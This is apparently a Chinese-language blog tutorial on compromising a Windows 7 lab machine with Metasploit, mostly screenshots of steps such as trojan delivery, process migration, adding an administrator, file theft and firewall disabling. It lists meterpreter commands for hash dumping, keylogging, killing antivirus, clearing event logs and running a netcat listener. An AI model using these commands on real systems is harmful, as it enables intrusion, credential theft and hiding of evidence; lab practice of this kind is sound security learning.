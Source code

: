 ```yaml
---
layout:     post
title:      msf入侵windows基本实践
subtitle:   msf入侵win7
date:       2021-03-19
author:     BlackFrog-hub
header-img: img/msf_bg.png
catalog: true
tags:
    - msf
    - kali
      
---
```


##### 生成木马
![](http://blackfrog.top/img/trojan.png)

##### 利用`Python`快速生成一个`HTTPServer`
![](http://blackfrog.top/img/python_http.png)

##### 利用靶机访问我们刚刚使用`Python`开启的`HTTPServer`，并下载生成的`Trojan`
![](http://blackfrog.top/img/http.PNG)

##### 启动`msf`
![](http://blackfrog.top/img/qidong.png)

##### 设置`payload`,并`exploit & run`成功
![](http://blackfrog.top/img/set.png)

##### 将`Trojan`进程移动到其他指定的进程中，这样做的好处是可以给`meterpreter`一个相对稳定的运行环境
![](http://blackfrog.top/img/unkill.png)

##### 查看`route`信息
![](http://blackfrog.top/img/route.png)

##### 查看进程
![](http://blackfrog.top/img/ps.png)

##### Get目标主机`shell`隐藏，获取靶机信息
![](http://blackfog.top/img/get.png)

##### 查看`IP`
![](http://blackfrog.top/img/ip.png)

##### 添加新用户并加入`administrator`组
![](http://blackfrog.top/img/shell.png)

##### 下载靶机文件
![](http://blackfrog.top/img/get_file.png)

##### 关闭目标主机`Firewalls`
![](http://blackfrog.top/img/off_firewall.png)

##### 其他基本命令
-  `run post/windows/gather/smart_hashdump`  获取目标主机上用户的hash值
-  `run post/windows/capture/keylog_recorder`  键盘记录
-  `run killav` 结束目标主机上的杀毒软件相关进程
-  `clearev`  清除系统日志
-  `upload /usr/share/windows-binaries/nc.exe c:\\windows\\system32` 上传`nc.exe`到目标主机上 (注:`\\`)
-  `dir windows\\system32\\nc.exe`  查看
-  `execute -f nc -nvlp 3333`  执行nc.exe

